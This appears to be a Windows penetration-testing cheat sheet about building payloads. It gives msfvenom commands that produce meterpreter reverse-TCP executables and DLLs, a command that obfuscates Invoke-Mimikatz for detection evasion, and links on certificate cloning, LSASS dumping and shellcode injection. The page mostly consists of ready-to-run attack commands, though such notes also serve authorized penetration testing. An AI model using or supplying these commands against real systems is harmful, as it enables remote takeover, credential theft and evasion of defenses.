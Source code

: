 ```yaml
---
layout: post
title: pen / win / build
category: pen
parent: cheatsheets
modified_date: 2023-07-17
permalink: /pen/win/build
---
```


**Mitre Att&ck Entreprise**: [TA0002 - Execution](https://attack.mitre.org/tactics/TA0002/)

**Menu**
<!-- vscode-markdown-toc -->
* [msfvenom](#msfvenom)
* [sign](#sign)
* [obfuscate](#obfuscate)
* [sources](#sources)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='msfvenom'></a>msfvenom
pbuild = payload build
```sh
#? generate msfvenom payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f exe > /tmp/meter-rtcp-192.168.156.1-80.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f dll > /tmp/meter-rtcp-192.168.156.1-80.dll
```

## <a name='sign'></a>sign
psign = payload sign
* [code signing certificates cloning](https://posts.specterops.io/code-signing-certificate-cloning-attacks-and-defenses-6f98657fc6ec)

## <a name='obfuscate'></a>obfuscate
```sh
# PyFuscation (https://github.com/CBHue/PyFuscation) bring small usefull features
python3 PyFuscation.py -fvp --ps ./Scripts/Invoke-Mimikatz.ps1
```

## <a name='sources'></a>sources

*[cocomelonc/registry-run-keys](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)
*[cocomelonc/dump-lsass](https://cocomelonc.github.io/malware/2023/05/11/malware-tricks-28.html)
*[cocomelonc/run-shellcode-via-settimer](https://cocomelonc.github.io/malware/2023/06/04/malware-tricks-31.html)
*[ired.team/write-shellcode-c](https://www.ired.team/offensive-security/code-injection-process-injection/writing-and-compiling-shellcode-in-c)
*[codeproject/write-shellcode-c++](https://www.codeproject.com/Articles/5304605/Creating-Shellcode-from-any-Code-Using-Visual-Stud)
*[byt3bl33d3r/OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim)



